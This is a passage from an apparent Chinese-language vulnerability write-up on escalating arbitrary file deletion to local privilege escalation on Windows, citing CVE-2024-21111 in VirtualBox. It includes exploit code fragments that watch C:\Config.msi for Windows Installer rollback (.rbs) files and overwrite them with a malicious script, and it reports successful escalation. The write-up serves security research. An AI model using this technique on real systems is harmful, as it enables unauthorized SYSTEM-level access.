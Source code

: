 使用 Windows API 函数 ReadDirectoryChangesW 来监视 C:\\\\Config.msi 目录的变化，特别是关注文件名变化。当检测到文件名变化时，通过 FILE\_NOTIFY\_INFORMATION 结构体获得文件名，并检查文件扩展名是否为 .rbs：

```php
do {
    ReadDirectoryChangesW(hFile, buff, sizeof(buff) - sizeof(WCHAR), TRUE, FILE_NOTIFY_CHANGE_FILE_NAME,
        &retbt, NULL, NULL);
    fn = (FILE_NOTIFY_INFORMATION*)buff;
    size_t sz = fn->FileNameLength / sizeof(WCHAR);
    fn->FileName[sz] = '\0';
    extension = fn->FileName;
    PathCchFindExtension(extension, MAX_PATH, &extension2);
} while (wcscmp(extension2, L".rbs") != 0);
```

一旦识别出 .rbs 文件，代码将执行以下操作：

1. 修改文件安全属性：使用 SetSecurityInfo 函数修改文件的安全属性，改变文件的访问权限。
2. 移动文件：使用自定义的 Move 函数移动文件，其实就是删除文件。
3. 创建并写入 rbs 文件：如果之前的操作成功，代码将创建一个新的 rbs 文件并写入数据。使用 CreateFile 打开文件，然后使用 WriteFile 将之前加载的资源（RbsBuff）写入文件：

```php
HANDLE rbs = CreateFile(rbsfile, GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE | FILE_SHARE_DELETE, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
if (WriteFile(rbs, RbsBuff, RbsSize, NULL, NULL)) {
    printf("[+] Rollback script overwritten!\n");
}
else {
    printf("[!] Failed to overwrite rbs file!\n");
}
```

运行后成功提权：

![](https://cdn.nlark.com/yuque/0/2024/png/12719746/1715345722534-3b8b026c-31f2-4b4d-9317-3d84ad97b770.png)

总结
==

本文在任意文件删除的基础上进行了本地提权，这个漏洞发现的难点我感觉在于如何清空需要转换为连接点的目录这个地方，在CVE-2024-27460中的目录（不光光是此漏洞）使用的是低权限创建的文件内容，所以我们可以直接对此进行清空。而vmbox的日志权限为高权限，需要构造与日志文件相同的目录来打崩服务，服务崩溃后导致递归删除。（递归删除这一思路漏洞作者也有指出）  
我没有发现会导致递归删除，当时想的是把文件名都做成目录，后来才知道能递归删除的，这也是有别于其他符号链接提权漏洞的tips，所以后续挖洞时可以多进行观察，这种情况也并不常见。

这就是本文的全部内容了，如文中存在问题欢迎留言。

参考链接
====

[Windows之任意文件删除到提权 - 先知社区](https://xz.aliyun.com/t/13230?time__1311=mqmxnDBD9DyD0AD2DBu%3DwjYAK0Qm%3Dwx5v%2BD&alichlgref=https%3A%2F%2Fwww.google.com%2F#toc-2)

<https://github.com/mansk1es/CVE-2024-21111>